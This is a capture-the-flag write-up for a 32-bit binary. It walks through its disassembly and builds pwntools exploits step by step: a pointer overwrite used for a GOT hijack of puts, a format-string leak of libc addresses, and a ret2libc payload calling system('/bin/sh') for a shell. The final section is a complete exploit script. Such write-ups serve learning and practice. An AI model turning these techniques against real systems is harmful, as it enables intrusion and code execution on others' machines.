

# Writeup

Step

- On running checksec

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- On running <a id="strings">strings</a> , the interesting things seem to be
  this only

```bash
.
.
/bin/cat flag1
/bin/cat flag2
Enter 2nd Password:
250382
Good For You
Password matched.%s
Congrats on getting past the first verification step. Here is something very useful
Enter your name:
Now Enter password:
.
.
```

- In the objdump, we see three functions

  - `main`
  - `passedFirstHurdle`
  - `verification2`

## Objdump of `main`

```bash
 804930b:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804930f:       83 e4 f0                and    esp,0xfffffff0
 8049312:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8049315:       55                      push   ebp
 8049316:       89 e5                   mov    ebp,esp
 8049318:       53                      push   ebx
 8049319:       51                      push   ecx
 804931a:       83 ec 10                sub    esp,0x10
 804931d:       e8 0e fe ff ff          call   8049130 <__x86.get_pc_thunk.bx>
 8049322:       81 c3 de 2c 00 00       add    ebx,0x2cde
 8049328:       c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 804932f:       c7 45 ea 00 00 00 00    mov    DWORD PTR [ebp-0x16],0x0
 8049336:       c7 45 ee 00 00 00 00    mov    DWORD PTR [ebp-0x12],0x0
 804933d:       66 c7 45 f2 00 00       mov    WORD PTR [ebp-0xe],0x0
 8049343:       8d 45 ea                lea    eax,[ebp-0x16]
 8049346:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8049349:       83 ec 0c                sub    esp,0xc
 804934c:       8d 83 bc e0 ff ff       lea    eax,[ebx-0x1f44]
 8049352:       50                      push   eax
 8049353:       e8 28 fd ff ff          call   8049080 <puts@plt>
 8049358:       83 c4 10                add    esp,0x10
 804935b:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 8049361:       8b 00                   mov    eax,DWORD PTR [eax]
 8049363:       83 ec 0c                sub    esp,0xc
 8049366:       50                      push   eax
 8049367:       e8 f4 fc ff ff          call   8049060 <fflush@plt>
 804936c:       83 c4 10                add    esp,0x10
 804936f:       8b 83 f4 ff ff ff       mov    eax,DWORD PTR [ebx-0xc]
 8049375:       8b 00                   mov    eax,DWORD PTR [eax]
 8049377:       83 ec 04                sub    esp,0x4
 804937a:       50                      push   eax
 804937b:       6a 10                   push   0x10
 804937d:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 8049380:       e8 eb fc ff ff          call   8049070 <fgets@plt>
 8049385:       83 c4 10                add    esp,0x10
 8049388:       83 ec 0c                sub    esp,0xc
 804938b:       8d 83 cd e0 ff ff       lea    eax,[ebx-0x1f33]
 8049391:       50                      push   eax
 8049392:       e8 e9 fc ff ff          call   8049080 <puts@plt>
 8049397:       83 c4 10                add    esp,0x10
 804939a:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 80493a0:       8b 00                   mov    eax,DWORD PTR [eax]
 80493a2:       83 ec 0c                sub    esp,0xc
 80493a5:       50                      push   eax
 80493a6:       e8 b5 fc ff ff          call   8049060 <fflush@plt>
 80493ab:       83 c4 10                add    esp,0x10
 80493ae:       8b 83 f4 ff ff ff       mov    eax,DWORD PTR [ebx-0xc]
 80493b4:       8b 00                   mov    eax,DWORD PTR [eax]
 80493b6:       83 ec 04                sub    esp,0x4
 80493b9:       50                      push   eax
 80493ba:       6a 0a                   push   0xa
 80493bc:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 80493bf:       e8 ac fc ff ff          call   8049070 <fgets@plt>
 80493c4:       83 c4 10                add    esp,0x10
 80493c7:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 80493cd:       8b 00                   mov    eax,DWORD PTR [eax]
 80493cf:       83 ec 0c                sub    esp,0xc
 80493d2:       50                      push   eax
 80493d3:       e8 88 fc ff ff          call   8049060 <fflush@plt>
 80493d8:       83 c4 10                add    esp,0x10
 80493db:       83 ec 0c                sub    esp,0xc
 80493de:       8d 45 ea                lea    eax,[ebp-0x16]
 80493e1:       50                      push   eax
 80493e2:       e8 99 fc ff ff          call   8049080 <puts@plt>
 80493e7:       83 c4 10                add    esp,0x10
 80493ea:       b8 00 00 00 00          mov    eax,0x0
 80493ef:       8d 65 f8                lea    esp,[ebp-0x8]
 80493f2:       59                      pop    ecx
 80493f3:       5b                      pop    ebx
 80493f4:       5d                      pop    ebp
 80493f5:       8d 61 fc                lea    esp,[ecx-0x4]
 80493f8:       c3                      ret
```

- Initially the binary seems pretty innocent. fgets is being used and no format
  string vulnerabilty seems to be there in main function.
- There seems to be no calls whatsoever to any of the two other functions from
  main

- But when we look we see that fgets is called on `$ebp-0xc` with buffer size of
  `0x10` and when we see whats stored in `$ebp-0xc` , we see `$ebp-0x16` getting
  stored.

```bash
8049343:       8d 45 ea                lea    eax,[ebp-0x16]
8049346:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
```

So its probably storing a pointer to a string. And since the fgets call has
buffer length of `0x10` i.e 16 so if whatever we write after the 10th
character(0x16-0xc) is going to overwrite the content inside `$ebp-0xc`. This
happens because the pointer to the string is lying right below(`above actually`)
the string. So there's a small buffer overflow vulnerabilty here.

```bash
 804936f:       8b 83 f4 ff ff ff       mov    eax,DWORD PTR [ebx-0xc]
 8049375:       8b 00                   mov    eax,DWORD PTR [eax]
 8049377:       83 ec 04                sub    esp,0x4
 804937a:       50                      push   eax
 804937b:       6a 10                   push   0x10
 804937d:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 8049380:       e8 eb fc ff ff          call   8049070 <fgets@plt>
```

- There seems to be some puts,printf,fflush calls in main
- There is also a second fgets call, which is again with `$ebp-0xc`, so maybe we
  could do something with these calls. And both are almost idential except for
  the length of buffer passed. It was 0x10 in last one and 0xa in this one.

```bash
 80493ae:       8b 83 f4 ff ff ff       mov    eax,DWORD PTR [ebx-0xc]
 80493b4:       8b 00                   mov    eax,DWORD PTR [eax]
 80493b6:       83 ec 04                sub    esp,0x4
 80493b9:       50                      push   eax
 80493ba:       6a 0a                   push   0xa
 80493bc:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 80493bf:       e8 ac fc ff ff          call   8049070 <fgets@plt>
```

- Lets see whats happening by running the binary.

```bash
Enter your name:
Dipesh
Now Enter password:
idkabcdefgh
idkabcdef
```

- Now trying to overwrite the $ebp-0xc pointer, we can do something like this

```bash
Enter your name:
abcdefghijaaaa
Now Enter password:
1234567890
[1]    33580 segmentation fault (core dumped)
```

We get a segmentation fault. So there's definitely something we could do with
this.

- First lets see other functions and what they are doing

## Objdump of `passedTheFirstHurdle`

```bash
 80492b3:       55                      push   ebp
 80492b4:       89 e5                   mov    ebp,esp
 80492b6:       53                      push   ebx
 80492b7:       83 ec 04                sub    esp,0x4
 80492ba:       e8 71 fe ff ff          call   8049130 <__x86.get_pc_thunk.bx>
 80492bf:       81 c3 41 2d 00 00       add    ebx,0x2d41
 80492c5:       83 ec 0c                sub    esp,0xc
 80492c8:       ff 75 08                push   DWORD PTR [ebp+0x8]
 80492cb:       e8 00 fe ff ff          call   80490d0 <printf@plt>
 80492d0:       83 c4 10                add    esp,0x10
 80492d3:       83 ec 08                sub    esp,0x8
 80492d6:       8b 83 ec ff ff ff       mov    eax,DWORD PTR [ebx-0x14]
 80492dc:       50                      push   eax
 80492dd:       8d 83 64 e0 ff ff       lea    eax,[ebx-0x1f9c]
 80492e3:       50                      push   eax
 80492e4:       e8 e7 fd ff ff          call   80490d0 <printf@plt>
 80492e9:       83 c4 10                add    esp,0x10
 80492ec:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 80492f2:       8b 00                   mov    eax,DWORD PTR [eax]
 80492f4:       83 ec 0c                sub    esp,0xc
 80492f7:       50                      push   eax
 80492f8:       e8 63 fd ff ff          call   8049060 <fflush@plt>
 80492fd:       83 c4 10                add    esp,0x10
 8049300:       e8 f1 fe ff ff          call   80491f6 <verification2>
 8049305:       90                      nop
 8049306:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 8049309:       c9                      leave
 804930a:       c3                      ret
```

- We see a printf call followed by another printf call then fflush and then a
  call to another function `verification2`

<a id="fstringvuln">.</a>

- Also we can see that this function would take in an argument and print it with
  printf.

```bash
 80492c8:       ff 75 08                push   DWORD PTR [ebp+0x8]
 80492cb:       e8 00 fe ff ff          call   80490d0 <printf@plt>
```

- The thing pushed onto the stack before printf call is an argument passed while
  calling the `passedFirstHurdle` function, because in anything that is accesed
  with ebp+0x(something) is argument passed to the function. Here at `$ebp+0x8`
  is probably the first argument and right below it the return address would go.

```text
ebp+0x8
-----
ebp+0x4 - return address of current frame
-----
ebp of last stack frame
----- current frame's ebp
.
.
.
.
----- esp

```

- But we never really enter this function with binary's normal flow of execution
- So we cant check what printing and all is happening here because we dont enter
  this call at all.
- Now lets see what happens in `verification2` which does get called from this
  function.

## Objdump of `verification2`

```bash
 80491f6:       55                      push   ebp
 80491f7:       89 e5                   mov    ebp,esp
 80491f9:       53                      push   ebx
 80491fa:       83 ec 14                sub    esp,0x14
 80491fd:       e8 2e ff ff ff          call   8049130 <__x86.get_pc_thunk.bx>
 8049202:       81 c3 fe 2d 00 00       add    ebx,0x2dfe
 8049208:       83 ec 04                sub    esp,0x4
 804920b:       6a 14                   push   0x14
 804920d:       8d 83 26 e0 ff ff       lea    eax,[ebx-0x1fda]
 8049213:       50                      push   eax
 8049214:       6a 01                   push   0x1
 8049216:       e8 95 fe ff ff          call   80490b0 <write@plt>
 804921b:       83 c4 10                add    esp,0x10
 804921e:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 8049224:       8b 00                   mov    eax,DWORD PTR [eax]
 8049226:       83 ec 0c                sub    esp,0xc
 8049229:       50                      push   eax
 804922a:       e8 31 fe ff ff          call   8049060 <fflush@plt>
 804922f:       83 c4 10                add    esp,0x10
 8049232:       83 ec 04                sub    esp,0x4
 8049235:       6a 10                   push   0x10
 8049237:       6a 00                   push   0x0
 8049239:       8d 45 e8                lea    eax,[ebp-0x18]
 804923c:       50                      push   eax
 804923d:       e8 7e fe ff ff          call   80490c0 <memset@plt>
 8049243:       83 c4 10                add    esp,0x10
 8049246:       83 ec 04                sub    esp,0x4
 8049249:       68 00 01 00 00          push   0x100
 804925d:       8d 45 e8                lea    eax,[ebp-0x18]
 8049251:       50                      push   eax
 8049252:       6a 00                   push   0x0
 8049254:       e8 f8 fd ff ff          call   8049050 <read@plt>
 8049258:       83 c4 10                add    esp,0x10
 804925b:       83 ec 08                sub    esp,0x8
 804925e:       8d 83 3b e0 ff ff       lea    eax,[ebx-0x1fc5]
 8049264:       50                      push   eax
 8049265:       8d 45 e8                lea    eax,[ebp-0x18]
 8049268:       50                      push   eax
 8049269:       e8 d2 fd ff ff          call   8049040 <strcmp@plt>
 804926e:       83 c4 10                add    esp,0x10
 8049271:       85 c0                   test   eax,eax
 8049273:       75 2f                   jne    80492a4 <verification2+0xae>
 8049275:       83 ec 08                sub    esp,0x8
 8049278:       8d 83 42 e0 ff ff       lea    eax,[ebx-0x1fbe]
 804927e:       50                      push   eax
 804927f:       8d 83 4f e0 ff ff       lea    eax,[ebx-0x1fb1]
 8049285:       50                      push   eax
 8049286:       e8 45 fe ff ff          call   80490d0 <printf@plt>
 804928b:       83 c4 10                add    esp,0x10
 804928e:       8b 83 f8 ff ff ff       mov    eax,DWORD PTR [ebx-0x8]
 8049294:       8b 00                   mov    eax,DWORD PTR [eax]
 8049296:       83 ec 0c                sub    esp,0xc
 8049299:       50                      push   eax
 804929a:       e8 c1 fd ff ff          call   8049060 <fflush@plt>
 804929f:       83 c4 10                add    esp,0x10
 80492a2:       eb 0a                   jmp    80492ae <verification2+0xb8>
 80492a4:       83 ec 0c                sub    esp,0xc
 80492a7:       6a 00                   push   0x0
 80492a9:       e8 e2 fd ff ff          call   8049090 <exit@plt>
 80492ae:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 80492b1:       c9                      leave
 80492b2:       c3                      ret
```

- We see a write call after the prologue. Its loading some string from data
  section and writing to stdout evident from the `push 0x0` instruction

```bash
 804920b:       6a 14                   push   0x14
 804920d:       8d 83 26 e0 ff ff       lea    eax,[ebx-0x1fda]
 8049213:       50                      push   eax
 8049214:       6a 00                   push   0x0
 8049216:       e8 95 fe ff ff          call   80490b0 <write@plt>
```

- After that we see a `fflush` call followed by a `memset` call which seems to
  be zeroing out the contents in `$ebp-0x18`(to $ebp-0x8 probably because of
  0x10 being pushed before the call).

<a id="overflow">.</a>

- Now we see something interesting, there is read call and its arguments seem to
  be 0(stdin probably), 0x100, and $ebp-0x18.

```bash
 8049249:       68 00 01 00 00          push   0x100 // buffer size
 804925d:       8d 45 e8                lea    eax,[ebp-0x18]
 8049251:       50                      push   eax //inp string
 8049252:       6a 00                   push   0x0 //stdin
 8049254:       e8 f8 fd ff ff          call   8049050 <read@plt>
```

- There is a very huge overflow here. We can pretty much write what we want on
  the stack with that much buffer size. But since this binary doesnt allow
  execution on the stack(by running `checksec`), we can discard the possibility
  of injecting shellcode. Its probably something else.

<a id="password-cmp"/>.</a>

- Also after that read, theres a comparision using `strcmp` with some const
  char\*($ebx-0x1fc5), and if we had given the correct password, we get a printf
  otherwise it seems to be calling exit.

```bash
  804925e:       8d 83 3b e0 ff ff       lea    eax,[ebx-0x1fc5]
  8049264:       50                      push   eax
  8049265:       8d 45 e8                lea    eax,[ebp-0x18]
  8049268:       50                      push   eax
  8049269:       e8 d2 fd ff ff          call   8049040 <strcmp@plt>
```

## Exploit

- We have figured out that there is a vulnerability in fgets call in main that
  we can exploit. To even get close to the flag we first need to see what stuff
  is happening inside the other two functions, we need to know what they are
  printing. And since the first fgets call allows us to write `16 bytes`(6
  illegal bytes) and then there's another similar fgets call with the same
  pointer(which is very much vulnerable), we could write to arbitrary address
  with this if we give our first input suitably. It would have to be something
  like this
  ```python
  'ABCDEFGHIJ'+struct.pack('I',some_address)
  ```
  What this input would do is overwrite the value inside `$ebp-0xc` to be
  `some_address` (initially it was `$ebp-0x16`). So `$ebp-0xc` would be pointing
  to somewhere else.
- Now when we encounter the next fgets which is also called with `$ebp-0xc` ,it
  would overwrite whatever is in that address to what we gave as input.
- Here we could do a GOT hijack and run the function `passedFirstHurdle`.
- Now the function we could hijack should probably be `puts` because its the
  only function which is called just once and put the address of
  `passedFirstHurdle` there. We could do it for `fflush` that comes right after
  the 2nd `fgets` call but `fflush` is called in `passedFirstHurdle` as well so
  when we get to that point it will probably again call `passedFirstHurdle`
  function and this would be bad. We wont be able to move ahead with the
  execution with this. So the target is `puts`.
- From objdump of `puts@plt`, we can see that the address we need to write on is
  `0x804c01c`. We can confirm it is `puts@got.plt` from disassembling in gdb.

```bash
08049080 <puts@plt>:
 8049080:       ff 25 1c c0 04 08       jmp    DWORD PTR ds:0x804c01c
 8049086:       68 20 00 00 00          push   0x20
 804908b:       e9 a0 ff ff ff          jmp    8049030 <.plt>
```

- The value we need to write on it would be the address of `passedFirstHurdle`
  which is at `0x80492b3`(seen in objdump of this function).

Input would have to be something like this

```python
from pwn import *
# The binary asked Name and Password
Filename ='./something' # Put filename
def gotHijack() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    p.interactive()
gotHijack()
```

- Output

```bash
b'Enter your name:\n'
b'Now Enter password: \n'
[*] Switching to interactive mode
aaaaaaaaaa\x1c\x04
Congrats on getting past the first verification step. Here is something very useful
0xf7d8a0a0
Enter 2nd Password: $ dipesh
[*] Got EOF while reading in interactive
$
```

We see our first input getting printed(the first fgets input) and after that,
some hex value being printed and its telling us its very useful . And after that
we are being asked to input 2nd password. Judging from what we know, this 2nd
password is probably being asked by the `verification2` function call.

It seems that the string that was supposed to be printed by the puts call is
being passed as an argument after that GOT hijack, And since the function prints
the argument passed to it(observed in the objdump), thats what seems to be
happening.

Also we dont know what this mysterious hex value is and what we need to give as
2nd password. The 2nd password is probably there in the binary itsef
([from here](#password-cmp)). Now if we see the output of our
[strings](#strings) command, we can guess what the password could possibly be.
Since most of the other things seem to be printed , a reasonable guess for
password would be the string '250382'. And when we try it, we do succeed.

```python
from pwn import *
# The binary asked Name and Password
Filename ='./something' # Put filename
def gotHijackAndPassword() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0,3)]
    p.sendline("250382\x00")
    p.interactive()
gotHijackAndPassword()
```

It worked but it didnt give anything. It just outputs 'Password Matched. Good
For you' and exits. This doesnt seem to be the way to go.

Lets try to find out what that anonymous hex value is. We can do this by using
gdb. We can just overwrite the return address of main function to make it return
to `passedFirstHurdle` instead of where it would normally return to.

- What we need to do to achieve this is right before the `lea esp,[ecx-4]`
  instruction, we stop and do `set {int}($ecx-0x4) = 0x80492b3`, then we will
  execute the `passedFirstHurdle` function after the `ret` instruction is
  executed.

If we do that, we will enter the `passedFirstHurdle` function and now right
before the 2nd `printf` call if we inspect what the parameters are , we will see
one being the `Here is something useful..` string and other being some address
which turns out to be `printf`. I am using pwndbg, so it shows the arguments
passed to function call there itself. You could do this is normal gdb also. It
turns out that the hex value was dynamic address of printf and it is indeed very
useful. It guides us towards a new exploit. We could do a ret2libc possibly if
we find out which libc is being used in the server.


```bash
pwndbg> x/wx $ebx-0x14
0x804bfec:      0xf7de80a0
pwndbg> disassemble 0xf7de80a0
Dump of assembler code for function printf:
   0xf7de80a0 <+0>:     endbr32
   0xf7de80a4 <+4>:     call   0xf7edc08d <__x86.get_pc_thunk.ax>
   0xf7de80a9 <+9>:     add    eax,0x198d73
   0xf7de80ae <+14>:    sub    esp,0xc
   0xf7de80b1 <+17>:    lea    edx,[esp+0x14]
   0xf7de80b5 <+21>:    push   0x0
   0xf7de80b7 <+23>:    push   edx
   0xf7de80b8 <+24>:    push   DWORD PTR [esp+0x18]
   0xf7de80bc <+28>:    mov    eax,DWORD PTR [eax+0x180]
   0xf7de80c2 <+34>:    push   DWORD PTR [eax]
   0xf7de80c4 <+36>:    call   0xf7df8780 <__vfprintf_internal>
   0xf7de80c9 <+41>:    add    esp,0x1c
   0xf7de80cc <+44>:    ret
End of assembler dump.
```

But to do that , we need to get one more address. Ofcourse we can also guess
what libc version the server might be using. But lets try to leak the address.

- What we were doing was overwriting `puts` with `passedFirstHurdle` and while
  doing so the thing that was supposed to be printed by puts call was also
  getting passed as argument to the `passedFirstHurdle` call. And if we see what
  `puts` was supposed to print, it turns out to be the first input that we gave.
  And it seems to be getting printed by [printf](#fstringvuln) without loading a
  format string, so we have here a format string vulnerability(as we have full
  control over the string that gets passed to printf). So there might be a way
  to leak out the address of `__libc_start_main` with this vulnerabilty as this
  was where the `main` function wouldve returned to. So it must be there
  somewhere in the stack.
- To check for libc version, we can use <a href="https://libc.rip" >this</a>, we
  would need two dynamically loaded addresses along with their function names
  and this gives us the the libc version that would have these two functions
  with the same offset.
- First lets see where main is normally returning to. With gdb we can see that
  with normal execution it returns to `__libc_start_main+270`. So whatever
  address we leak out, we must subtract 270 from it to get address of
  `__libc_start_main` and then when we put the values in the site, we will get
  the libc which is used.
- We bruteforce to find the correct format string. We note the value of address
  printed,subtract 270, go the site, put the values of `__libc_start_main` and
  `printf` and then see if it matches. Initially it wont give any results, and
  when we get to the correct thing, it will give us the libc of our system. It
  turns out the suitable thing would be something like this

  ```python
  from pwn import *
  import struct
  def f(a: int) -> bytes:
      return struct.pack('I', a)
  AddressOfPuts = 0x804c01c
  AddressOfPassedFirstHurdle = 0x80492b3
  Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
  Password = f(AddressOfPassedFirstHurdle)
  Filename = '' # Put filename here

  def leak_address() -> None:
      p = process(Filename)
      print(p.recvline())
      p.sendline(Name)
      print(p.recvline())
      p.sendline(Password)
      [print(p.recvline()) for i in range(0, 3)]
      # What this will do is, we will have dynamic addresses of two libc functions
      # printf and __libc_start_main
      # after this we can go to libc.rip
      # and from the differences between these addresses , it will tell us
      # the version of libc used in server
      payload = ("250382\x00" + 'A' * 21).encode()
      p.sendline(payload)
      p.interactive()
  leak_address()
  ```

```bash
b'Enter your name:\n'
b'Now Enter password: \n'
b'AAAAf7d7008e\x1c\xc0\x04\x08\n'
b'Congrats on getting past the first verification step. Here is something very useful\n'
b'0xf7da60a0\n'
[*] Switching to interactive mode
Enter 2nd Password: Password matched.Good For You
```

The 2nd address is of printf and the one after AAAA in 3rd line is address of
`__libc_start_main+270`. Subtract 270 from that and put it in the website and
get the right version. It would show your libc version when ran locally but we
can just run in server to find out.

We will find the necessary offsets in that site for things like `system` and
`/bin/sh`.

Now that we have all the necessary info we can overwrite the return address of
`verification2` (because of [this](#overflow) ) with `system` and pass `/bin/sh`
as its argument and get a shell hopefully.

```python
from pwn import *
import struct
def f(a: int) -> bytes:
    return struct.pack('I', a)
AddressOfPuts = 0x804c01c
AddressOfPassedFirstHurdle = 0x80492b3
Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
Password = f(AddressOfPassedFirstHurdle)
Filename = '' # Put filename here
def main() -> None:
    p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 4)]

    # Libc 2.32
    # Will be different for other libc versions
    offsetForSh = 0x195108
    offsetForExit = 0x37e50
    offsetForSystem = 0x456e0
    offsetForPrintf = 0x550a0

    printfAddr = p.recvline().decode()
    print(printfAddr)
    printfAddr = printfAddr.strip().split(':')[-1]
    addressOfLibc = int(printfAddr, 16) - offsetForPrintf
    addressOfSh = addressOfLibc + offsetForSh
    addressOfExit = addressOfLibc + offsetForExit
    addressOfSystem = addressOfLibc + offsetForSystem

    payload = ("250382\x00" + 'A' * 21).encode() + \
        f(addressOfSystem) + f(addressOfExit) + f(addressOfSh) + f(0) #this seemed to overwrite the # return address
    p.sendline(payload)
    p.interactive()

main()

```

Now when we do this in the server with server's libc offsets, we will get a
shell. Then we just do `cat flag1` and `cat flag2` and we have our flag

- Final Exploit

```python
from pwn import *
import struct


def f(a: int) -> bytes:
    return struct.pack('I', a)


# From objdump -d -Mintel
AddressOfPuts = 0x804c01c
AddressOfPassedFirstHurdle = 0x80492b3
Name = ('A' * 4 + "%23$8x").encode() + f(AddressOfPuts)
Password = f(AddressOfPassedFirstHurdle)
Filename = './something'

# host = 'host'
# port = 'port'


def gotHijackAndPassword() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 3)]
    p.sendline("250382\x00")
    p.interactive()


def gotHijack() -> None:
    Name = "aaaaaaaaaa"+"\x1c\xc0\x04\x08"
    Password = "\xb3\x92\x04\x08"
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    p.interactive()


def get_printf_and_exit_address() -> None:
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    print(p.recvline())
    p.sendline(Name)
    print(p.recvline())
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 3)]
    payload = ("250382\x00" + 'A' * 21).encode()
    p.sendline(payload)
    p.interactive()


def main() -> None:
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 4)]

    # Libc 2.32
    # Will be different for other libc versions
    offsetForSh = 0x195108
    offsetForExit = 0x37e50
    offsetForSystem = 0x456e0
    offsetForPrintf = 0x550a0

    printfAddr = p.recvline().decode()
    print(printfAddr)
    printfAddr = printfAddr.strip().split(':')[-1]
    addressOfLibc = int(printfAddr, 16) - offsetForPrintf
    addressOfSh = addressOfLibc + offsetForSh
    addressOfExit = addressOfLibc + offsetForExit
    addressOfSystem = addressOfLibc + offsetForSystem

    payload = ("250382\x00" + 'A' * 21).encode() + \
        f(addressOfSystem) + f(addressOfExit) + f(addressOfSh) + f(0)
    p.sendline(payload)
    p.interactive()


#
# gotHijackAndPassword()
# gotHijack()
# get_printf_and_exit_address()
main()
```
